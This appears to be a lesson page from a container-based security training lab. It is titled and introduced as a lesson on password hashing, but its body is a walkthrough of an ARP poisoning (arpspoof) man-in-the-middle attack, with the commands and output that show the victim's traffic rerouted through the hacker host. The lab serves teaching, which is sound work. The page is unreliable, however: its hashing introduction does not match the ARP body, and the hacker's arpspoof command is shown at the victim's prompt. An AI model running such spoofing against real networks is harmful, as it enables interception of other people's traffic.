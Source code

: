 ## Password Hashing and Cracking
Password is an important user authentication mechanism. Passwords are stored in the database as
hashes rather than plain text. If users’ passwords are stored in a database as plain text, malicious
hackers can get immediate access to them if they break into the system. In this lab, you will
understand what password hash is and how password hash be cracked.

## Password Hashing
A hash function turns any amount of data into a fixed-length “fingerprint” that cannot be reversed.  
The fixed-length “fingerprint” is called a hash value or hash code. 
The unique feature of hash functions is that any change in input data will result in a completely different hash code. Cryptographic hash functions are used to implement password hashing.  

There are multiplecryptographic hash functions, such as MD5, SHA-2.

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.
{: .callout} 

We will start by first adding the ArpSpoof application:

![Add ArpSpoof]({{ page.root }}/fig/arpspoof/add-arpspoof.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/arpspoof/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name:

![Launch Containers]({{ page.root }}/fig/arpspoof/launch-containers.png)

We will start with the hacker. On the hacker browser tab, click on **Hacker.ipynb** to open a Jupyter notebook with instructions on 
conducting the attack:

![Open Hacker Notebook]({{ page.root }}/fig/arpspoof/hacker-notebook.png)

The next step is to find the IP address of the server. On the server browser tab, launch a new terminal window from the Jupyter 
notebook page:

![Server Terminal]({{ page.root }}/fig/arpspoof/launch-server-terminal.png)

To find the IP address of the server, use the *ifconfig* command at the server terminal:

~~~
jovyan@arpspoofserver:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.6 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Make a note of the *inet* address returned on your terminal. Next, we will determine the IP address of the victim.

Launch a terminal in the victim browser window:

![Open Victim Terminal]({{ page.root }}/fig/arpspoof/victim-terminal.png)

Find the IP address of the victim using *ifconfig* at the victim terminal:

~~~
victim@arpspoofvictim:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.7 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Now, inspect the ARP table on the victim (it only has one entry; the gateway):

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
~~~
{: .output}

Next ping the server:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.171 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.072 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.085 ms
...
~~~
{: .output}

Recheck the ARP table on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		fa:65:b8:f5:81:46	C			eth0
~~~
{: .output}

It now has an entry for the server's IP. Now check the route to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.6	0.003ms		0.002ms		0.001ms
~~~
{: .output}

Now we will conduct the ARP poisoning attack from the hacker. Open a terminal window on the hacker:

![Open Hacker Terminal]({{ page.root }}/fig/arpspoof/launch-hacker-terminal.png)

Run the *arpspoof* command on the hacker terminal with the victim and server IP addresses:

~~~
victim@arpspoofvictim:~$ sudo arpspoof -t 10.32.0.7 10.32.0.6
~~~
{: .language-bash}

~~~
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
~~~
{: .output}

> ## Order of arguments
> Note the order of arguments to the *arpspoof* command; the victim IP comes first followed by 
> the server IP address.
{: .callout}

Now ping the server again from the victim. You may need to wait a bit to see the output below:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.121 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.071 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.096 ms
...
~~~
{: .output}

Let's recheck the ARP tables on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		da:ee:b1:44:c2:78	C			eth0
10.32.0.8	ether		da:ee:b1:44:c2:78	C			eth0
~~~
{: .output}

> ## What is wrong with this ARP table?
> Notice that the server's IP address entry now has a different MAC (HWaddress) that before.
> Also, there are two IP addresses, both with the same MAC address. 10.32.0.8 is the IP address 
> of the hacker. Astute observers will also note that this MAC address was the response the *arpspoof*
> command was returning.
{: .callout}

Now check the route from the victim to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.8	0.003ms		0.002ms		0.002ms
2	10.32.0.6	0.002ms		0.002ms		0.002ms
~~~
{: .output}

> ## What does traceroute tell us?
> There are now two hops that each message from the victim to the server is taking; first to the hacker 
> and then to the server.
{: .callout}

{% include links.md %}
